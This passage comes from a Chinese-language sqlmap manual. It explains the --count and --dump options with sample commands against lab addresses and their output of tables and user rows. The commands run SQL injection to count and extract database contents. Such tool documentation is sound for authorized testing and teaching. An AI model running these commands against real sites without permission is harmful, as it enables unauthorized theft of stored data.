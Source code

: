 Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]

获取表中数据个数

参数：--count

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个Microsoft SQL Server例子：

$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+

获取整个表的数据

参数：--dump,-C,-T,-D,--start,--stop,--first,--last

如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取真个表的所有内容。

使用-D,-T参数指定想要获取哪个库的哪个表，不适用-D参数时，默认使用当前库。

列举一个Firebird的例子：

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
